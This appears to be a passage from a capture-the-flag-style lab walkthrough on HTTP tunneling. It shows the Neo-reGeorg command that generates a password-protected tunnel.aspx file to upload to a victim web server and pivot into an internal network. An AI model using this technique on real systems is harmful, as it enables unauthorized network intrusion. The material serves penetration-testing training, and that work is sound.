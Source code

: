![HTTP Tunneling](./assets/92004a7c6a572f9680f0056b9aa88baa.png)

In this section, we will create an HTTP tunnel communication channel to pivot into the internal network and  communicate with local network devices through HTTP protocol. Let's say  that we found a web application that lets us upload an HTTP tunnel agent file to a victim webserver, uploader.thm.com. Once we upload and connect to it, we will be able to communicate with app.thm.com. 

For HTTP Tunneling, we will be using a [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) tool to establish a communication channel to access the internal  network devices. We have installed the tool in AttackBox, and it can be  found in the following location:

- **Neo-reGeorg Path on AttackBox**

```shell
root@AttackBox:/opt/Neo-reGeorg#
```

Next, we need to generate an encrypted client file to upload it to the victim web server as follows,

- **Generating encrypted Tunneling Clients with a selected password!**

```shell
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py generate -k thm                                                                                                                                                                              


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 3.8.0
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
```